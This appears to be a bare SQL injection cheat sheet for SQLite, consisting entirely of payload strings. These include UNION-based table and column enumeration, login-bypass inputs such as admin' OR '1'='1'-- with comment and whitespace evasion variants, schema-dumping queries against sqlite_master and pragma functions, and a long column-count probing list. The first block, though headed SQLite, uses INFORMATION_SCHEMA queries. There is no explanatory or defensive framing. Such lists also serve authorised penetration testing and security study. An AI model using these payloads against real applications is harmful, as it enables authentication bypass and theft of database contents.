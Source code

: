 # For SQLi (SQLite)
#### 0+UNION+SELECT+NULL,+COLUMN_NAME,+NULL,+NULL+FROM+INFORMATION_SCHEMA.COLUMNS
#### 0+UNION+SELECT+NULL,+group_concat(COLUMN_NAME),+NULL,+NULL+FROM+INFORMATION_SCHEMA.COLUMNS
#### 0+UNION+SELECT+2,3,table_name,4+from+INFORMATION_SCHEMA.tables
#### 0+UNION+SELECT+2,group_concat(table_name),3,4+from+INFORMATION_SCHEMA.TABLES
#### 0+UNION+SELECT+2,3,group_concat(table_name),4+from+INFORMATION_SCHEMA.tables+where+table_SCHEMA=database()
..............................................................................
# For SQLi (SQLite)

( user=admin' ;&pass=a )

( user=admin' --&pass=a )

( user=admin' /*&pass=a )

( adm'||'in &Pass=' glob '* )

( user=ad'||'min'%00&pass=a )

( user=1' OR '1'='1%00&pass=a )

( user=admin' OR '1'='1';&pass=a )

( user=admin' OR '1'='1'--&pass=a )

( user=admin' OR '1'='1'/*&pass=a )

( user=admin&pass=a'/**/IS/**/NOT/**/'b )

( user='admi'||CHAR(' AND pass='-0+110)||'' )

( user=adm' ||   trim('in', Password: )  || '&pass=a )

( user=admin' union select * from users where '1&pass=a )

( user=' union select * from users where username in("admin")/*&pass=a )

(  user=mali'/**/union/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;&pass=a )

( User='/**/union/**/select*from/**/users/**/where/**/username/**/in(char(97,100,109,105,110))/*&pass=a )

.....................................................................................
# For SQLi (SQLite)

'union select sqlite_version() -- -

123' UNION SELECT 1, sqlite_version(), 3;--

' UNION SELECT table_name FROM sqlite_master --

123' UNION SELECT name, sql, null from sqlite_master;--

' UNION SELECT sql FROM sqlite_master WHERE type='table' AND name='your_table' --

'UNION SELECT tbl_name FROM sqlite_master WHERE TYPE='table' AND tbl_name NOT LIKE'sqlite_%'

' UNION SELECT null, sql FROM sqlite_master WHERE type='view' --

' UNION SELECT null, sql FROM sqlite_master WHERE type='trigger' --

' UNION SELECT null, sql FROM sqlite_master WHERE type='index' --

' UNION SELECT null, sql FROM sqlite_master WHERE type='table' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' --

' UNION SELECT null, sql FROM sqlite_master WHERE type='index' AND sql NOT NULL --

' UNION SELECT null, sql FROM sqlite_master WHERE type='trigger' AND sql NOT NULL --

' UNION SELECT null, sql FROM sqlite_master WHERE type='view' AND sql NOT NULL --

' UNION SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL --

' UNION SELECT null, name FROM pragma_function_list() WHERE name NOT LIKE 'sqlite_%' --

' UNION SELECT null, name FROM pragma_module_list() WHERE name NOT LIKE 'sqlite_%' --

' UNION SELECT group_concat(name) FROM sqlite_master WHERE type='table' --

' UNION SELECT group_concat(sql) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name' --

' UNION SELECT null, table_name FROM pragma_table_info('sqlite_master') --

' UNION SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name' --
.....................................................................................................................
' UNION SELECT NULL --

' UNION SELECT 1 --

' UNION SELECT 'a' --

' UNION SELECT 'a', 'b' --

' UNION SELECT 'a', 'b', 'c' --

' UNION SELECT 'a', 'b', 'c', 'd' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '0' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '0', '1' --

